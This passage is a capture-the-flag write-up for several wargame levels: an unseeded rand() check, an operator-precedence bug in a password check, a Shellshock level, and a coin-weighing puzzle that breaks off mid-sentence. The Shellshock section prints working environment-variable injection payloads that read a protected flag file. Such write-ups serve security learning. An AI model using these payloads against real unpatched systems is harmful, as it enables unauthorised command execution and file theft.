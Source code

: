 
### Level 6 - Random

We have a c file, which generates a random number, xors it with our input, and checks if it equals to 0xdeadbeef.
But in reality, it doesn't really generates a random number, since a seed hasn't been specified, so the numbers will be the same.
We can try to create that number, by extracting key from the equation:  `0xdeadbeef ^ random = (key ^ random) ^ random = key`
After running this print: `printf("%d", rand() ^ 0xdeadbeef);`
we get -1255736440, which will give us the flag when entered in the executable!

### Level 9 - Mistake

We have a c code, which takes input from the user, xors it, and checks if it equals to a specific string located in a file.
This line handles opening the file:
`if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0)`

but because of operands priority, < comes before = , fd will be always 0. (of ourse only if the file was opened)
Then we use the read command on fd, which is 0, but because 0 is the file descriptor of stdin, it actually asks us for the password, so now we can control it.
So lets give it the password: bbbbbbbbbb
and then when it actually asks us to guess the password, we should enter cccccccccc , beacuse cccccccccc will become bbbbbbbbbb after the xor function.

### Level 10 - Shellshock

Now we have a c code which runs the command `echo shellshock` with root privileges.

```c
#include <stdio.h>
int main(){
 setresuid(getegid(), getegid(), getegid());
 setresgid(getegid(), getegid(), getegid());
 system("/home/shellshock/bash -c 'echo shock_me'");
 return 0;
}
```
the program doesn't require any input. But beacause of the name of the ctf, we can know it has something to do with the famous shellshock vulnerability.
Then I found a cool way of exploiting it:

`env x='() { :;}; echo vulnerable' ./shellshock`

but it only echos vulnerable into the string.
if we try to do `cat flag`, we'll see that it throws some kind of error.
So I used this trick to see the flag:
env x='() { :;}; echo $(<flag)' ./shellshock


### Level 11 - Coin1

Now we have a cool game:
we are given with number of coins, and number of guesses.
One of those coins is fake and its weight is 9kg while the others are 10kg, and we need to find this fake coin 100 times, in 60 seconds.
We can find it by weighing series of coins, and get the total amount of kgs.
When playing a bit with the program , I noticed that in every game, 2^C > N, so I thought solving it with binary search, so that I can find it in C tries.
First of all I weighed the first half, if the odd one is in them, I know that it can't be in the other half, and I continued in this pattern.
At the end I have found the fake coin, and sent it back to the server.
I thought I was done, but my code was too slow, and it couldn't find the fake coin 100 times.
So because communicating with a local computer in your subnet is really fast, 